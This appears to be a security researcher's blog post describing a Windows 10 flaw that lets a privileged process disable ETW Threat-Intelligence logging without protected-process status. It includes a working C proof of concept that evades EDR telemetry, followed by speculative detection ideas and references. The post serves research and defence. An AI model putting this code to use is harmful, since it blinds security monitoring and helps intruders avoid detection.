 ```yaml
---
layout: post
title: "ETW-ByeBye: Disabling ETW-TI Without PPL"
date: 2024-04-24 12:15:00 +1000
categories: DefenseEvasion Windows
---
```


# Intro

Back in October of 2023, RiskInsight published a blog post that caught my attention. The post explained [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/), detailed a "bug" that allows a user to disable logging of certain ETW-TI events for a given process from user mode **without** the expected PPL requirement.

As RiskInsight already explained this in detail, I will not be explaining background on how ETW-TI works under the hood. I will simply be building upon their blog post, with the aim of showing how I went from their post to a functional POC. 

# Contents

1. [Intro](#intro)
2. [Exploitation Requirements](#exploitation-requirements)  
3. [The Bug](#the-bug) 
4. [Building A POC](#building-a-poc) 
5. [Potential Detections](#potential-detections) 
6. [References](#references) 

# Exploitation Requirements

In order to exploit this bug, you require either `SeDebug` or `SeTcb` privileges to be enabled, and be on one of the following vulnerable Windows versions: 

|                                          | Win10<br>1507 -> 1703 | Win10<br>1709 -> 1803 | Win10<br>1809 -> 22H2 | Win11<br>21H2 -> 22H2 |
| ---------------------------------------- | --------------------- | --------------------- | --------------------- | --------------------- |
| Read virtual memory operation            | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Write virtual memory operation           | N/A                   | Vulnerable            | Vulnerable            | Patched               |
| Process suspension / resuming operations | N/A                   | N/A                   | Vulnerable            | Patched               |
| Thread suspension / resuming operations  | N/A                   | N/A                   | Vulnerable            | Patched               |
Thanks to RiskInsight for this table: [Source](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/)

# The Bug

As ETW-TI can raise a large number of events, it is enabled on a per-process basis. To do so, you make a call to `NtSetInformationProcess`, specifying either `ProcessEnableReadWriteVmLogging` or  `ProcessEnableLogging` as the `ProcessInformationClass`.

The intention is that alongside the permissions mentioned prior, in order to disable process should be a protected process `PROTECTED_ANTIMALWARE_LIGHT`, and thus signed by Microsoft. However, this check is missing on the aforementioned windows versions, and so only the token permission checks are in place. Again, RiskInsight went into a lot of detail about this, and so if you want to find out more, feel free to give [their post](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) a read.

Taking a look at a cleaned up binary ninja decompilation, we see the token permissions checks (and can confirm that there are no PPL checks in place):

![image of binary ninja decompilation of NtSetInformationProcess](/assets/img/posts/disabling-etw-ti-without-ppl/binary-ninja-decompilation.png)

# Building A POC

The first step to building a functional proof-of-concept was figuring out the related structures/enum definitions. Thanks to various public resources, namely [ntdoc.m417z.com](https://ntdoc.m417z.com) and [jsecurity101.medium.com/uncovering-windows-events](https://jsecurity101.medium.com/uncovering-windows-events-b4b9db7eac54) learning about the required structures and enums was easy.

Regarding the `PROCESS_INFO_CLASS` enum, I referenced [ntdoc.m417z.com/processinfoclass](https://ntdoc.m417z.com/processinfoclass), and to figure out what to pass as our `ProcessInformation`, I referenced [ntdoc.m417z.com/process_readwritevm_logging_information](https://ntdoc.m417z.com/process_readwritevm_logging_information) and [ntdoc.m417z.com/process_logging_information](https://ntdoc.m417z.com/process_logging_information). This resulted in having the following definitions:

**PROCESS_INFO_CLASS** 
```c
typedef enum _PROCESSINFOCLASS
{
    // [SNIPPED FOR BREVITY]
    ProcessEnableReadWriteVmLogging = 0x57, // qs: PROCESS_READWRITEVM_LOGGING_INFORMATION
    // [SNIPPED FOR BREVITY]
    ProcessEnableLogging = 0x60, // qs: PROCESS_LOGGING_INFORMATION
} PROCESSINFOCLASS;
```

**PROCESS_READWRITEVM_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_READWRITEVM_LOGGING_INFORMATION
{
    UCHAR Flags;
    UCHAR EnableReadVmLogging;
    UCHAR EnableWriteVmLogging;
    UCHAR Unused = 6;
} PROCESS_READWRITEVM_LOGGING_INFORMATION, *PPROCESS_READWRITEVM_LOGGING_INFORMATION;
```

**PROCESS_LOGGING_INFORMATION** 
```c
typedef struct _PROCESS_LOGGING_INFORMATION
{
    ULONG Flags;
    ULONG EnableReadVmLogging;
    ULONG EnableWriteVmLogging;
    ULONG EnableProcessSuspendResumeLogging;
    ULONG EnableThreadSuspendResumeLogging;
    //ULONG EnableLocalExecProtectVmLogging;  // New in Win11
    //ULONG EnableRemoteExecProtectVmLogging; // New in Win11
    ULONG Reserved = 26;
} PROCESS_LOGGING_INFORMATION, * PPROCESS_LOGGING_INFORMATION;
```

With all this ready, I just had to figure out what values to set, I'll save you the trouble and just let you know that `Flags` should be set to `0xf` in all cases.

From there, just make a simple call to `NtSetInformationProcess` as follows, there's nothing more to it :)

```c
int main(int argc, char** argv, char** envp)
{
    HMODULE Ntdll = GetModuleHandleA("ntdll.dll");
    typeNtSetInformationProcess NtSetInformationProcess = (typeNtSetInformationProcess)GetProcAddress(Ntdll, "NtSetInformationProcess");

    // Prepare for NtSetInformationProcess
    PROCESS_LOGGING_INFORMATION ProcessLoggingInformation = { 0 };
    ProcessLoggingInformation.Flags = (ULONG)0xf;
    ProcessLoggingInformation.EnableReadVmLogging = 1;
    ProcessLoggingInformation.EnableWriteVmLogging = 1;
    ProcessLoggingInformation.EnableProcessSuspendResumeLogging = 1;
    ProcessLoggingInformation.EnableThreadSuspendResumeLogging = 1;
    ProcessLoggingInformation.Reserved = 26;

    NTSTATUS Status = NtSetInformationProcess(
        (HANDLE)-1,
        (ULONG)ProcessEnableLogging,
        &ProcessLoggingInformation,
        sizeof(_PROCESS_LOGGING_INFORMATION));

    if (NT_SUCCESS(Status))
    {
        printf("[+] Successfully disabled the following ETW-Ti events\n"
               " - ReadVmLogging\n"
               " - WriteVmLogging\n"
               " - ProcessSuspendResumeLogging\n"
               " - ThreadSuspendResumeLogging\n");
    }
    else
    {
        printf("[!] Error, status 0x%08X\n", Status);
    }

	return 0;
}
```

# Potential Detections / Preventions

Important to note that regarding how practical these are, they are purely speculation on my part.

1. Hooking NtSetInformationProcess in user mode
    - This can very likely be bypassed albeit still a line of defense.
2. Walking the `KPROCESS` list and checking if ETW-TI has been disabled for a non-expected process
    - Not sure how viable this is due to potentially having to set a spinlock on the list, but would be a very powerful integrity check if doable.
3. Lack of ETW-TI telemetry
    - Checking if a process is raising no events of a common event type e.g. `ReadVmLogging`. (Credit to [@bakki](https://twitter.com/shubakki))
4. Update to Windows 11
    - As this bug no longer exists on Windows 11, if migration is possible that I will always recommend this over alternatives. 

# References

- [A universal EDR bypass built in Windows 10](https://www.riskinsight-wavestone.com/en/2023/10/a-universal-edr-bypass-built-in-windows-10/) - RiskInsight's blog post of which inspired me to build this POC. 
- [SealighterTI](https://github.com/pathtofile/SealighterTI) - A tool to test the Thread-Intelligence ETW Provider 
- [Tweet - First Seen Usage?](https://x.com/SBousseaden/status/1745022464965349628)
- [NtDoc](https://ntdoc.m417z.com/)